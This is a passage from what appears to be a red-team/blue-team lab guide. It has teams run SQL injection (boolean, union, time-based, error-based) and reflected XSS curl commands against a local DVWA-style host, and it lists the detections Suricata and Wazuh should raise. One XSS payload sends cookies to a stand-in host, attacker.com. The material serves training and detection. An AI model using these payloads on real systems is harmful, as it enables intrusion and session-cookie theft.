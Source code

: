 **Security teams observe:**
- Normal HTTP response codes (200, 302)
- Typical request patterns
- Expected response times
- Clean log entries

### Phase 2: SQL Injection Attack Scenario

**Deploy Teams Execute SQL Injection:**

**🔵 AM Team:**
```bash
# Basic SQL injection attempts
curl "http://192.168.0.169:8080/vulnerabilities/sqli/?id=1'%20OR%20'1'='1'&Submit=Submit"

# Union-based injection
curl "http://192.168.0.169:8080/vulnerabilities/sqli/?id=1'%20UNION%20SELECT%201,database()--&Submit=Submit"

# Information gathering
curl "http://192.168.0.169:8080/vulnerabilities/sqli/?id=1'%20UNION%20SELECT%201,version()--&Submit=Submit"
```

**🟣 PM Team:**
```bash
# Time-based blind injection
curl "http://192.168.0.169:8081/vulnerabilities/sqli/?id=1'%20AND%20SLEEP(5)--&Submit=Submit"

# Error-based injection
curl "http://192.168.0.169:8081/vulnerabilities/sqli/?id=1'%20AND%20EXTRACTVALUE(1,CONCAT(0x7e,database(),0x7e))--&Submit=Submit"
```

**💡 SQL Injection Types:**
- Boolean-based: OR '1'='1'
- Union-based: data extraction
- Time-based: blind injection
- Error-based: information disclosure

**💡 Expected Detections:**
- Suricata: SQL keywords in URL
- Wazuh: unusual request patterns
- Application: potential error responses
- Database: query anomalies

### Phase 3: Cross-Site Scripting (XSS) Attack Scenario

**Deploy Teams Execute XSS Attacks:**

**🔵 AM Team:**
```bash
# Reflected XSS
curl "http://192.168.0.169:8080/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>"

# Advanced payload
curl "http://192.168.0.169:8080/vulnerabilities/xss_r/?name=<img%20src=x%20onerror=alert('XSS')>"

# Cookie stealing simulation
curl "http://192.168.0.169:8080/vulnerabilities/xss_r/?name=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>"
```
